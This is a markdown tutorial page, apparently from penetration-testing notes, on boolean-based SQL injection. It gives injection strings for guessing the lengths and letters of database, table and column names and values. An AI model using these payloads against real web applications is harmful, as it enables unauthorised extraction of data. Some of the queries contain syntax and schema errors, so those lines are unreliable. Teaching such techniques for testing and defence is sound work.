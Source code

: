 # Boolean-based SQLi

[Go back](../sql.md)

<div class="row row-cols-md-2"><div>

Boolean-based SQLi involve injecting SQL bit by bit while only having one output: ok or failed.

For instance, if you have a page telling you if a user exists. If this page return "true" for a username `toto`:

```text!
GET /account?username=toto
```
</div><div>

If you try to inject some SQL "`toto' AND 1=0-- -`"

```text!
GET /account?id=toto' AND 1=0-- -
```

The response will indicate that the username does not exist, but as you know it exists, then you can infer that the trailing injected code failed (`AND 1=0-- -`).
</div></div>

<hr class="sep-both">

## Manual Boolean-based SQLi

<div class="row row-cols-md-2"><div>

Manually exploiting a Boolean-based SQLi is hard and lengthy. You will do exactly what we do during [Union-based SQL](union_sqli.md#manual-union-based-sqli), aside from the fact that you work letter by letter.

* **Number of columns selected** - unchanged
* **Find the type of each column** - unchanged
* **Find the DBMS used** - letter by letter
* **Extract data** - letter by letter

➡️ All examples below are with `database()`, but you will have to use comparisons to find the DMBS, the database, the table, the columns, and even to extract the values in the table.

Before testing each letter, you should check the length of the text you want to guess. 

```text!
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

Then, you may use `LIKE` to rather easily find a name:

```text!
' AND database() LIKE '%' -- - // test; should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```
</div><div>

There may be multiple databases starting with the same letter. To know if there are more, you have to exclude the one you found.

```text!
' AND database() != 'my_example' AND database() LIKE 'my_%' -- -
[...]
```

For some conditions, you may use something like this:

```text!
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```

You can't always use LIKE, and may have to fall back to ASCII.

```text!
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'

-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```
</div></div>